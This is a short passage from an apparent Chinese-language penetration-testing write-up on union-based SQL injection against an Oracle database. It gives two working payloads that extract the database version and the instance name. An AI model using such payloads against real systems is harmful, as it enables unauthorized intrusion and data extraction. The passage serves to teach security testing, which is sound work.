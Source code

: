 那么这里说明两个字段都为字符型。

然后用 select+banner+from+sys.v\_$version+where+rownum=1 查询数据库版本信息：

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+banner+from+sys.v\_$version+where+rownum=1)+from+dual--

![image.png](assets/1701153934-fc46ae59e9cd0d323f6b45b25cc2243b.png)

select instance\_name from V$INSTANCE 查询当前数据库

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+instance\_name+from+V$INSTANCE)+from+dual--

![image.png](assets/1701153934-648fbbde2ab32b6d916c6207957a57d4.png)
